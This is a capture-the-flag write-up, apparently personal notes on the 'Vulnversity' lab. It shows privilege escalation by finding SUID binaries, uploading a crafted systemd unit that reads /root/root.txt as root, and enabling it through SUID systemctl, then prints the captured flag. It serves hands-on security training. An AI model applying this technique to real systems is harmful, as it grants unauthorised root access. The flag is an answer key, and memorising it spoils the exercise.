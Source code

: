 ## Vulnversity
### Priv escalation
Find SUID files on the victim
  
    find / -perm -u=s -type f 2>/dev/null
    /usr/bin/newuidmap
    ...
    /bin/systemctl
     ...

On the attacker create the following service configuration file as service01.phtml

    [Unit]
    Description=Service 01
    
    [Service]
    Type=simple
    User=root
    ExecStart=/bin/bash -c 'cat /root/root.txt'
    
    [Install]
    WantedBy=multi-user.target

Upload the file using the form to the victim, (http://10.10.13.154:3333/internal/) then execute the following steps

    cd /var/www/html/internal/uploads
    mv service01.phtml service01.service
    /bin/systemctl enable /var/www/html/internal/uploads/service01.service
      Created symlink from /etc/systemd/system/multi-user.target.wants/service01.service to /var/www/html/internal/uploads/service01.service.
      Created symlink from /etc/systemd/system/service01.service to /var/www/html/internal/uploads/service01.service.
Them start the service

    /bin/systemctl status service01
Check the execution to get the flag: a58ff8579f0a9270368d33a9966c7fd5

    /bin/systemctl status service01
    * service01.service - Service 01
       Loaded: loaded (/var/www/html/internal/uploads/service01.service; enabled; vendor preset: enabled)
       Active: inactive (dead) since Mon 2024-04-29 06:38:29 EDT; 1min 4s ago
      Process: 12889 ExecStart=/bin/bash -c cat /root/root.txt (code=exited, status=0/SUCCESS)
     Main PID: 12889 (code=exited, status=0/SUCCESS)
    
    Apr 29 06:38:29 vulnuniversity systemd[1]: Started Service 01.
    Apr 29 06:38:29 vulnuniversity bash[12889]: a58ff8579f0a9270368d33a9966c7fd5

    



